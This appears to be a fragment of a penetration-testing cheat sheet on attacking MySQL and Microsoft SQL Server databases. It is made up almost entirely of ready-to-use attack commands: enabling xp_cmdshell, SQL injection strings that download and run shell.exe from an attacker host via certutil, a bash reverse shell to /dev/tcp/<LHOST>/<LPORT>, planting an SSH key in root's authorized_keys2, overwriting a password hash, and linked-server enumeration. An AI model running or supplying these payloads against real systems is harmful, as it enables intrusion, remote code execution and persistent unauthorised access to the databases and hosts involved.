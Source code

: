 ##### Update User Password

```c
mysql> update user set password = '37b08599d3f323491a66feabbb5b26af' where user_id = 1;
```

##### Drop a Shell

```c
mysql> \! /bin/sh
```

##### xp_cmdshell

```c
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```

```c
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

```c
';EXEC master.dbo.xp_cmdshell 'ping <LHOST>';--
';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://<LHOST>/shell.exe C:\\Windows\temp\<FILE>.exe';--
';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\<FILE>.exe';--
```

##### Insert Code to get executed

```c
mysql> insert into users (id, email) values (<LPORT>, "- E $(bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1')");
```

##### Write SSH Key into authorized_keys2 file

```c
mysql> SELECT "<KEY>" INTO OUTFILE '/root/.ssh/authorized_keys2' FIELDS TERMINATED BY '' OPTIONALLY ENCLOSED BY '' LINES TERMINATED BY '\n';
```

##### Linked SQL Server Enumeration

```c
SQL> SELECT user_name();
SQL> SELECT name,sysadmin FROM syslogins;
SQL> SELECT srvname,isremote FROM sysservers;
SQL> EXEC ('SELECT current_user') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('SELECT srvname,isremote FROM sysservers') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''SELECT suser_name()'') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```

